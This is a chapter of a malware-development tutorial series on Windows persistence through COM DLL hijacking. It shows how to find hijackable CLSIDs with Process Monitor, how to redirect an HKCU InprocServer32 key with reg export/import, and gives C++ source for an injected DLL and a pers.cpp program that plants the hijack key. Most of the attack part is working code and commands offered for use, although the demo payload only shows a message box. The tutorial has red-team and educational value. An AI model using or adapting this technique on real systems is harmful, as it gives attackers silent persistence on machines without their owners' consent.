



## 44. malware development: persistence - part 3. COM DLL hijack. Simple C++ example.

{width="80%"}    

This section is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: COM hijacking.

### Component Object Model

In `Windows 3.11`, Microsoft introduced the *Component Object Model (COM)* is an object-oriented system meant to create binary software components that can interact with other objects. It's an interface technology that allows you to reuse items without knowing how they were made internally.     
I'll show you how red commands can use COM objects to run arbitrary code on behalf of a trusted process in this post.    

When a software needs to load a COM object, it uses the Windows API `CoCreateInstance` to construct an uninitialized object instance of a specific class, with the `CLSID` as one of the needed parameters (*class identifier*).

When a program calls `CoCreateInstance` with a particular `CLSID` value, the operating system consults the registry to discover which binary contains the requested `COM` code:

{width="80%"}    

The contents of the `InProcServer32` subkey under the `CLSID` key seen in the previous image are presented in the next image:

{width="80%"}    

In my case, `firefox.exe` calling `CoCreateInstance` with `CLSID`:     
`{A1DB7B5E-D0EA-4FE0-93C4-314505788272}`. The `C:\Windows\System32\TaskFlowDataEngine.dll` file associated with the registry key      
`HKCU\Software\Classes\CLSID\{A1DB7B5E-D0EA-4FE0-93C4-314505788272}\InprocServer32`

There are a variety of ways to execute code, but COM has been employed in red teaming circumstances for persistence, lateral movement, and defense evasion in various instances. Various registry sub-keys are used during COM Hijacking depending on how the malicious code is run. These are the following:    

- InprocServer/InprocServer32    
- LocalServer/LocalServer32    
- TreatAs    
- ProgID    

The sub-keys listed above are found in the following registry hives:    

- `HKEY_CURRENT_USER\Software\Classes\CLSID`    
- `HKEY_LOCAL_MACHINE\Software\Classes\CLSID`    

### how to discover COM keys for hijacking

Identification of `COM` keys that could be used to commit `COM` hijacking is simple and just requires the use of sysinternals [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) to find `COM` servers that lack `CLSID`s. It also does not require elevated privileges (`HKCU`).
The following filters can be set up in Process Monitor:    

{width="80%"}    

Also still good to add: *Exclude if path starts with `HKLM`*    

The `HKEY CURRENT USER` (`HKCU`) key is examined first when trying to load `COM` objects, giving preference to user-specified `COM` objects rather than system-wide `COM` objects (additional information in `HKEY CLASSES ROOT` key).

In my case, the `firefox.exe` process exhibits this behavior in the image below. The process is attempting to access `CLSID A6FF50C0-56C0-71CA-5732-BED303A59628` at the `HKCU` registry key.
Because the `CLSID` isn't found in the `HKCU` registry key, Windows reverts to `HCKR` (`HKLM` beneath the hood) for the identical `CLSID`, which worked in the previous attempt. This can be checked with commands:    

```powershell
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
reg query "HKCR\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
```

{width="80%"}    

Following the steps outlined above, we now have critical information that we may use to launch a *COM Hijacking attack*.

### attack process

First off all, export the specified subkeys, entries, and values of the local computer into a file:    

```powershell
reg export \
"HKCR\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}
\InprocServer32" \
C:\...\2022-05-02-malware-pers-3\orig.reg /reg:64 /y
```

{width="80%"}    

The next step is modify this file to set the default value of            
`HKCU\Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32`        
registry key:

{width="80%"}    

As you can see, we are placing custom DLL to be executed:    

{width="80%"}    

For simplicity, as always I took all the same file from one of my [previous](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) posts.

You can compile it from source code (`evil.cpp`):

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Then, just run:

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Save reg file as `evil.reg`:

{width="80%"}    

And import, then check registry again:

```powershell
reg import \
C:\...\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" \
/s
```

{width="80%"}    

Perfect!

### demo

Then restart `firefox.exe` in my case, wait some time. I've be waiting around 7 mins:    

{width="80%"}    

{width="80%"}    

If you notice then `PID` is `9272`. But if you open `Process Hacker` you can see that it's not here:    

{width="80%"}    

Firefox crashed after a some time:    

{width="80%"}    

but it happened the only time.    

Later, the "meow-meow" messagebox window popped-up with some frequency:    

{width="80%"}    

And even after closing `firefox`:    

{width="80%"}    

That's perfectly! :)

### update: programmer way

I also created `pers.cpp` dirty PoC script:

```cpp
/*
pers.cpp
windows low level persistence via 
COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\
  {A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = 
  "C:\\Users\\User\\Desktop\\shared\\
  2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, 
    (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey for hijacking :(\n");
    return -1;
  }
  return 0;
}
```

compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and run:    

```powershell
.\pers.exe
```

{width="80%"}    

As you can see, everything is work perfectly :)

Cleaning after completion of experiments:
```powershell
reg delete \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}" \
/f
```

{width="80%"}    

### conclusion

An attacker can employ a not-so-common but widely used technique to ensure silent persistence in a system after executing this actions. In the wild, this trick was often used by groups such as [APT 28](https://attack.mitre.org/groups/G0007/), [Turla](https://attack.mitre.org/groups/G0010/), as well as [Mosquito](https://attack.mitre.org/software/S0256/) backdoor.

[COM hijacking MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/015/)    
[APT 28](https://attack.mitre.org/groups/G0007/)    
[Turla](https://attack.mitre.org/groups/G0010/)    
[RegCreateKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[reg import](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-import)    
[reg export](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-export)    
[reg delete](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-delete)    
[source code in github](https://github.com/cocomelonc/2022-05-02-malware-pers-3)    
